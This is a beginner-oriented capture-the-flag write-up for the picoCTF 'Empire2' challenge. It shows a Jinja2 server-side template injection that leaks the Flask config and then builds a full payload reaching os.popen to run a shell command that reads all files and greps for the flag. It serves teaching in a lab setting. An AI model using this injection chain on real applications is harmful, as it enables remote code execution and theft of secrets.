 # Empire2

If you try the old SQL injection it doesn't work. It's filtered.

However it is vulnerable to Server Side template injection ([SSTI](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee))

For example if you create the todo `{{7*7}}` It shows up as `49`.

If we do `{{config}}` we get

```python
< Config {
  'ENV': 'production',
  'DEBUG': False,
  'TESTING': False,
  'PROPAGATE_EXCEPTIONS': None,
  'PRESERVE_CONTEXT_ON_EXCEPTION': None,
  'SECRET_KEY': 'picoCTF{your_flag_is_in_another_castle12345678}',
  'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31),
  'USE_X_SENDFILE': False,
  'SERVER_NAME': None,
  'APPLICATION_ROOT': '/',
  'SESSION_COOKIE_NAME': 'session',
  'SESSION_COOKIE_DOMAIN': False,
  'SESSION_COOKIE_PATH': None,
  'SESSION_COOKIE_HTTPONLY': True,
  'SESSION_COOKIE_SECURE': False,
  'SESSION_COOKIE_SAMESITE': None,
  'SESSION_REFRESH_EACH_REQUEST': True,
  'MAX_CONTENT_LENGTH': None,
  'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200),
  'TRAP_BAD_REQUEST_ERRORS': None,
  'TRAP_HTTP_EXCEPTIONS': False,
  'EXPLAIN_TEMPLATE_LOADING': False,
  'PREFERRED_URL_SCHEME': 'http',
  'JSON_AS_ASCII': True,
  'JSON_SORT_KEYS': True,
  'JSONIFY_PRETTYPRINT_REGULAR': False,
  'JSONIFY_MIMETYPE': 'application/json',
  'TEMPLATES_AUTO_RELOAD': None,
  'MAX_COOKIE_SIZE': 4093,
  'SQLALCHEMY_DATABASE_URI': 'sqlite://',
  'SQLALCHEMY_TRACK_MODIFICATIONS': False,
  'SQLALCHEMY_BINDS': None,
  'SQLALCHEMY_NATIVE_UNICODE': None,
  'SQLALCHEMY_ECHO': False,
  'SQLALCHEMY_RECORD_QUERIES': None,
  'SQLALCHEMY_POOL_SIZE': None,
  'SQLALCHEMY_POOL_TIMEOUT': None,
  'SQLALCHEMY_POOL_RECYCLE': None,
  'SQLALCHEMY_MAX_OVERFLOW': None,
  'SQLALCHEMY_COMMIT_ON_TEARDOWN': False,
  'SQLALCHEMY_ENGINE_OPTIONS': {},
  'BOOTSTRAP_USE_MINIFIED': True,
  'BOOTSTRAP_CDN_FORCE_SSL': False,
  'BOOTSTRAP_QUERYSTRING_REVVING': True,
  'BOOTSTRAP_SERVE_LOCAL': False,
  'BOOTSTRAP_LOCAL_SUBDOMAIN': None
} >
```

It looks like the flag is `picoCTF{your_flag_is_in_another_castle12345678}`, but alas it seems our flag is in another castle.

But with this, we cat start trying to execute python. Let's talk about this.

- `""` is a string literal.
- `"".__class__` is the class of a string literal, is `<class 'str'>`
- `"".__class__.__mro__` give the [**m**odule **r**esloution **o**rder](https://docs.python.org/3/library/stdtypes.html#class.__mro__) of the class (`(<class 'str'>, <class 'object'>)`)
- `"".__class__.__mro__[1]` is `<class 'object'>`. the base class 
- `"".__class__.__mro__[1].__subclasses__()` are all subclasses of the object class

Running `{{"".__class__.__mro__[1].__subclasses__()}}` as an input gives us every class in scope. 

This is realy long, but looking through this, index `117` is `<class 'os._wrap_close'>`

- `"".__class__.__mro__[1].__subclasses__()[117].__init__` is the init function to `os._wrap_close`
- `"".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__` is the global scope to that function.
- `"".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__["sys"]` is the sys module
- `"".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__["sys"].modules` is the dictionary of all modules
- `"".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__["sys"].modules["os"]` is the os module
- `"".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__["sys"].modules["os"].popen` allows us to open a command.

What command do we want: `cat $(find . -type f) | grep picoCTF`. This:
- `find`s all files
- con`cat`enates them
- searches for the flag format.

That gives a final entry of `{{ "".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['sys'].modules['os'].popen("cat $(find . -type f) | grep picoCTF").read() }}`

This gives
```python
SECRET_KEY = 'picoCTF{your_flag_is_in_another_castle12345678}' 
secret = db.Column(db.String(128),default="picoCTF{its_a_me_your_flag786f93f7}") 
session['dark_secret'] = "picoCTF{its_a_me_your_flag786f93f7}" 
```

Flag: `picoCTF{its_a_me_your_flag786f93f7}`

---

Adapted from [redpwn's writeup](https://github.com/redpwn/picoCTF-2019/tree/master/web/Empire2) to be more beginner friendly.